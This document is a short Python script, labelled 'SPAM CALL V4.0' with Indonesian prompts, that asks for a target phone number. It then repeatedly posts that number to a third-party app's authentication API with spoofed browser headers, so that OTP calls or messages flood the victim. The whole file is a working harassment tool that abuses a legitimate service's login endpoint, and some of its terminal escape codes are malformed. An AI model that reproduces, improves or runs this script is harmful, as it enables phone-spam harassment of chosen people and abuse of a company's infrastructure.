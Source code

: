 # Hafidz-bot
import os,sys,time,requests,json from requests import post def balik():     f = input("\033[1;97mKEMBALI (y/t): \033[1;92m")     if f == "y":        os.system("python call.py")     elif f == "t":          sys.exit("\033[1;91mexit\033[1;97m") os.system("clear") print ("\tSPAM CALL V4.0") print ("      Author: \033[1;96Hafidz\033[1;97m") print ("\033[1;97m*     Github:\033[1;92m github.com/Hafidz-bot\033[1;97m      *") print() print ("\033[90m>\033[1;97m CONTOH: \033[1;92m+62857×××××××××") no = input("\033[90m> \033[1;97mNOMOR TARGET: \033[1;92m")  ua = { "Host": "api.myfave.com", "Connection": "keep-alive", "x-user-agent": "Fave-PWA/v1.0.0", "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.83 Mobile Safari/537.36", "content-type": "application/json", "Accept": "*/*", "Origin": "https://m.myfave.com", "Referer": "https://m.myfave.com/jakarta/auth", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7" } for i in range(1,5):     dat = {"phone":no}     r = requests.post("https://api.myfave.com/api/fave/v3/auth", data=json.dumps(dat), headers=ua).text     if "6c047709f9da4291a568fa84b97b6d47" in r:         print ("\033[90m> \]33[1;97mSPAM \033[1;94m=> \033[1;91mFAILED")     else:         print ("\033[90m> \033[1;97mSPAM \033[1;94m=> \033[1;92mSUCCESS")     time.sleep(100)  balik()
